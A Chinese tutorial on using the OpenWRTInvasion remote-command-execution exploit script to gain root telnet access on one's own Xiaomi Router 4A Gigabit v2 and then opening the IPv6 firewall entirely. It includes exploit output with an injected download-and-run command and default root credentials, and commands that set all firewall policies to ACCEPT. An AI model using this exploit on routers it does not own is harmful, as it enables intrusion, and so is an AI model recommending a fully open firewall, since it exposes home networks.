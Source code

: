 ```yaml
---
title: 小米路由器 4A 千兆版v2 (r4ag v2) 放通所有 IPv6 流量
date: 2025-05-11
tags:
 - 小米路由器
 - IPv6
categories:
 - 网络
---
```


# 小米路由器 4A 千兆版v2 (r4ag v2) 放通所有 IPv6 流量



**适用于**

型号：小米路由器 4A 千兆版v2 (r4ag v2)

系统版本: 2.30.500 



### 下载漏洞脚本

注意必须要用这个，其他同名项目也不行

> 没空看源代码，也懒得看区别在在哪里了。



GitHub： [LordPinhead/OpenWRTInvasion](https://github.com/LordPinhead/OpenWRTInvasion) 

备用下载：https://wwjt.lanzouu.com/ixMDO2yd61re



### 解锁 Telnet

解压并打开项目

打开 `remote_command_execution_vulnerability.py`，把 Windows 检测的两行代码直接注释掉

![image-20250608220943742](mi_r4agv2_off_v6_fw.assets/image-20250608220943742.png)



找到变量 `router_password` 改成目前路由器的管理密码

![image-20250608221044742](mi_r4agv2_off_v6_fw.assets/image-20250608221044742.png)



安装依赖并运行脚本

```python
pip3 install -r requirements.txt # Install requirements
python3 remote_command_execution_vulnerability.py # Run the script
```



运行后一直回车即可

> 如果运行的时候卡在 `stopping local file server`，就是失败了，关掉重新运行。

```shell
Router IP address [press enter for using the default '192.168.31.1']: 
Local Host IP address [press enter for using the default '192.168.31.2']: 
Enter router admin password: '12345678']: 
****************
router_ip_address: 192.168.31.1       
stok: xxxxxxxxxxxxxxxxxxxxxxxxx
****************
local file server is runing on 0.0.0.0:50285. root='build'
start uploading payload file...
exploit url: cd /tmp && curl -s http://192.168.31.2:50285/build/payload.tar.gz > payload.tar.gz && curl -s http://192.168.31.2:50285/bootstrapper_v2.sh > bootstrapper.sh && /bin/ash /tmp/bootstrapper.sh
exploit_code: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
exploit_url: xxxxxxxxxxxxxxxxxxxxxxxxxxx
{"code":0}
stopping local file server
done! Now you can connect to the router using several options: (user: root, password: root)
* telnet 192.168.31.1
* ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -c 3des-cbc -o UserKnownHostsFile=/dev/null root@192.168.31.1
* ftp: using a program like cyberduck
```





运行完成后，就可以 Telnet 上路由器了

```
XiaoQiang login: root
Password: root


BusyBox v1.25.1 (2023-02-07 05:46:32 UTC) built-in shell (ash)

 -----------------------------------------------------
       Welcome to XiaoQiang!
 -----------------------------------------------------
  $$$$$$\  $$$$$$$\  $$$$$$$$\      $$\      $$\        $$$$$$\  $$\   $$\
 $$  __$$\ $$  __$$\ $$  _____|     $$ |     $$ |      $$  __$$\ $$ | $$  |
 $$ /  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ /  $$ |$$ |$$  /
 $$$$$$$$ |$$$$$$$  |$$$$$\         $$ |     $$ |      $$ |  $$ |$$$$$  /
 $$  __$$ |$$  __$$< $$  __|        $$ |     $$ |      $$ |  $$ |$$  $$<
 $$ |  $$ |$$ |  $$ |$$ |           $$ |     $$ |      $$ |  $$ |$$ |\$$\
 $$ |  $$ |$$ |  $$ |$$$$$$$$\       $$$$$$$$$  |       $$$$$$  |$$ | \$$\
 \__|  \__|\__|  \__|\________|      \_________/        \______/ \__|  \__|


root@XiaoQiang:~# 
```



### ip6table 放行 IPv6 流量

临时放行（用于测试是否为路由器防火墙引起的问题）

```shell
ip6tables -F
ip6tables -X
ip6tables -P INPUT ACCEPT
ip6tables -P OUTPUT ACCEPT
ip6tables -P FORWARD ACCEPT
```

永久放行：

```shell
# 设置 INPUT 策略为 ACCEPT
uci set firewall.@zone[1].input='ACCEPT'

# 设置 FORWARD 策略为 ACCEPT
uci set firewall.@zone[1].forward='ACCEPT'

# 保存到配置文件
uci commit firewall    

# 重启防火墙
/etc/init.d/firewall restart  

```



查看 ip6tables

```shell
ip6tables -L -n
```



重启系统验证

```shell
reboot
```



重启后从公网再访问一下，确认没问题，就是 OK 了。